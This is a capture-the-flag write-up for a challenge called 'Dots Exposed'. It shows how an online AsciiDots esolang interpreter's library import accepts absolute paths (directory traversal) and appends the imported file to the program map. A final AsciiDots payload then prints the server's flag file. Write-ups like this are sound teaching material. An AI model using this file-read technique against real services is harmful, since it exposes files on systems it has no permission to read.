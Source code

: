 # Dots Exposed

**Category**: misc \
**Solves**: 33 \
**Points**: 243 \
**Author**: geolado

Server: https://dots.exposed

## Overview

No code provided at all, just this site:

![ss](ss.png)

After some googling I found this: https://github.com/aaronjanse/asciidots

Turns out it's some weird esolang that's based on ASCII art. Let's try running this:
```dots
.-$"Hello, World!"
```

![h](h.png)

So we can assume that the server is running an AsciiDots interpreter, and the
goal is probably to read some flag file on the server.

## Solution

After reading through the language spec (it's actually a pretty cool esolang),
there doesn't seem to be any obvious way to perform IO (besides to `stdout` and
`stdin`). But it might be possible to abuse library imports:

> Using Libraries
>
> A library can be imported by starting a line with `%!`, followed with the file
> name, followed with a single space and then the character that the library
> defines.

Let's look at the source code:

```python
def _get_path_of_lib_file(self, filename):
    dir_paths_to_try = [
        self.program_dir,
        os.path.join(os.path.dirname(os.path.realpath(__file__)), 'libs'),
        os.path.join(os.path.dirname(os.path.dirname(os.path.realpath(__file__))), 'libs'),
    ]

    for dir_path in dir_paths_to_try:
        path = os.path.join(dir_path, filename)  # Vulnerable to directory traversal
        if os.path.isfile(path):
            return path

    raise RuntimeError('Native library "{}" cannot be found'.format(filename))
```

The interpreter checks for files in a pre-defined set of library directories,
but we can easily load any file by using an absolute path.

However, library files need to conform to the AsciiDots syntax. Or do they? I
tried importing a file that contained nothing but `CTF-BR{test_flag}` to see
what would happen:

```dots
%!/flag a
```

There are no errors, but nothing really happens either. But if I try invoking
the library with `.-a`, it throws an exception:

```
RuntimeError: Warp "a" has no destination
```

Let's look at the source code again:

```python
def _import_lib_file_with_warp_id(self, char_obj_array, filename, warp_id, is_singleton):
    path = self._get_path_of_lib_file(filename)

    with open(path, 'r') as lib_file:
        lib_code = lib_file.read()

    lib_char_obj_array = self.map_from_raw(lib_code)

    # ...

    char_obj_array.extend(lib_char_obj_array)  # This is important
```

The function will try to parse it, but it won't really do anything except the
last line:

```python
char_obj_array.extend(lib_char_obj_array)
```

This `char_obj_array` is set to `self.world.map`, which is just a 2D list
containing a "map" of the world. For example, given this program:

```
/-&
|
\-\ /-\
  | | |
/-/ | \-\
\---/   |
        |
        \-.

/->--
| |
\-/
```

The map will be this (ugly but you get the idea):

```python
[
  ['/', '-', '&']
  ['|']
  ['\\', '-', '\\', ' ', '/', '-', '\\']
  [' ', ' ', '|', ' ', '|', ' ', '|']
  ['/', '-', '/', ' ', '|', ' ', '\\', '-', '\\']
  ['\\', '-', '-', '-', '/', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '\\', '-', '.']
  []
  ['/', '-', '>', '-', '-']
  ['|', ' ', '|']
  ['\\', '-', '/']
]
```

So when we import a library, it will literally just append the file contents to
the end of the map.

Example program:

```dots
%!flag a

.-a
```

Map:
```python
[
  ['%', '!', 'f', 'l', 'a', 'g', ' ', 'a']
  []
  ['.', '-', 'a']
  ['C', 'T', 'F', '-', 'B', 'R', '{', 'f', 'a', 'k', 'e', '_', 'f', 'l', 'a', 'g', '}']
]
```

We need `a` to be in the map (aside from the line where it's imported) in order
for the library to actually be loaded. To prevent the `Warp "a" has no
destination` error, we can just ... never invoke it by never letting a dot
touch it:

```dots
%!flag a

a
```

So now that we have the flag in the map, how do we exfiltrate it? The answer is pretty simple actually:

```dots
%!flag a

a

.................
|||||||||||||||||
$$$$$$$$$$$$$$$$$
'''''''''''''''''
CTF-BR{fake_flag}  `` This will be appended when the library loads
```

Using single quotes ensures that the character is printed immediately, so even
if the quote is unclosed, the character will still be printed.

Final payload (and make sure there's no newline at the end of the file):

```dots
%!/flag a

a

..................................................
||||||||||||||||||||||||||||||||||||||||||||||||||
$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
''''''''''''''''''''''''''''''''''''''''''''''''''
```

![f](f.png)

Such a cool challenge 😍
